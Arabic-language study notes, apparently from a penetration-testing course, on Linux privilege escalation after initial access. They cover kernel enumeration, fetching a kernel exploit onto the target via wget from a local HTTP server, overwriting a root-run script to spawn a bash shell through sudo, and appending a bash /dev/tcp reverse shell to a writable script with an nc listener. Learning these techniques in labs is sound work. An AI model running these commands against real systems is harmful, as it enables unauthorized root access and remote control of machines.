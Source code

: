قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

#### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![[Pasted image 20250315173114.png]]
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 

---
# ثالث سيناريوا لو لقيت ال root عامل ملف ثغره زي ph .sh .php .c. وتقدر تفتحه وتقراه 

### روح امسح الملف واعمل ملف بنفس الاسم بالظبت 

```
 rm -rf اسم الملف
```
### اكتب الكوده داخله

```
echo 'import os;os.system("/bin/bash");' >> اسم الملف
```
### اخر حاجه محتاج تعمل excution  للملف اعمله بلامر ده
##### روح الاول اعرف مسار الملف من عند ال home
```
 pwd اسم الملف
```
##### اعمل امر ال excution
```
sudo python / home اسم الملف / مسار الملف لحد ال
مثال
sudo python /home/meliodas/bak.py
```

# ثالث سيناريوا لو لقيت ملف ثغره زي ph .sh .php .c. عامتا مش شرط ال root هو اللي عامله 
### تروح تحط فيه reverse shell :
#### الخطوات :
##### 1. روح اعمل  reverse shell من الموقع https://www.revshells.com/ 


##### 2. اكتب الامر ده : هيضيف ال reverse shell  لل ملف
```
echo ' اللي عملتهreverse shell ال ' >> filename 

مثال

echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
```

##### 3. روح اعمل listen علي ال port اللي عامله في ال reverse shell 

```
nc -lvnp رقم البورت
```

##### 4.  وبعدين نفذ الملف 
شوف الطريقه من ال [[manual Exploitation]]



# اختبر حفظك : [[شرح الكورس لل (Q) Linux kernel exploits]]

